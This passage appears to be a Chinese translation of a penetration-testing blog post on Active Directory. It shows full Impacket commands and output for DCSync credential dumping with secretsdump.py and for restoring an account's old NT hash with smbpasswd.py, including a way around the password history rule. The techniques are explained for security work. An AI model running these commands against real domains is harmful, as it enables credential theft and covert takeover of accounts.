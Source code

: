 
 **通过 LDAP 重置密码**

重置密码后，我们就可以控制域管理员。然后可以使用带有*-just-dc-user _和_ -history标志的* _Impacket_ _的_
_secretsdump.py_ 对 esteban_da 帐户执行 DCSync 。

    
    
    # python3 impacket/examples/secretsdump.py esteban_da:NewPass123@n00py.local -just-dc-user esteban_da -history  
    Impacket v0.9.25.dev1+20220217.14948.9fee58da - Copyright 2021 SecureAuth Corporation  
       
    [*] Dumping Domain Credentials (domain\uid:rid:lmhash:nthash)  
    [*] Using the DRSUAPI method to get NTDS.DIT secrets  
    n00py.local\esteban_da:1119:aad3b435b51404eeaad3b435b51404ee:<CURRENT NTHASH>:::  
    n00py.local\esteban_da_history0:1119:<OLD NT HASH>:::  
    

 **使用 Impacket 转储密码历史**

一旦之前的 NT 哈希恢复，就可以使用 Impacket 中的 smbpasswd.py 将其 _设置**回来_ 。

注意：这不会绕过密码策略要求，因此您需要事先枚举，尤其是最短密码期限和密码历史记录。这可以使用 Windows 上的 **net accounts
/domain** 命令或使用CrackMapExec 中的 _–pass_ _-pol_
标志来完成。如果密码策略成为问题，您可能必须在妥协后对其进行修改。

    
    
    # python3 smbpasswd.py n00py.local/esteban_da:NewPass123@n00py.local  -newhashes aad3b435b51404eeaad3b435b51404ee:<OLD NT HASH>  
    Impacket v0.9.25.dev1+20220217.14948.9fee58da - Copyright 2021 SecureAuth Corporation  
       
    [*] NTLM hashes were changed successfully.  
    

 **使用 Impacket 重置 NT 哈希**

在撰写本文时，存在两 (2) 个对 _Impacket_ 的主动拉取请求。这些请求增加了通过直接修改域控制器上的 NTDS 来重置密码的能力，就像
_Mimikatz_ 所做的那样。这允许绕过密码策略，但需要域管理员级别的权限才能执行。

通过使用 Impacket PR #1172，我们可以使用另一个域管理员帐户并绕过密码历史记录将 esteban_da 重置回原始哈希值。

    
    
    # python3 smbpasswd.py n00py.local/administrator@n00py.local -hashes :<ADMINISTRATOR NT HASH> -reset esteban_da -newhashes :<ESTEBAN_DA NT HASH>  
    Impacket v0.9.24.dev1+20210929.201429.1c847042 - Copyright 2021 SecureAuth Corporation  
       
    [*] NTLM hashes were set successfully.  
    

 **使用 Impacket 重置 NT 哈希并绕过密码历史 PR#1172**

另一个需要注意的是，在将密码哈希设置回其原始值后，该帐户会被设置为已过期的密码。要清除此标志，我们可以将 LDAP 与从 DCSync
恢复的另一个域管理员帐户的 NT 哈希一起使用。
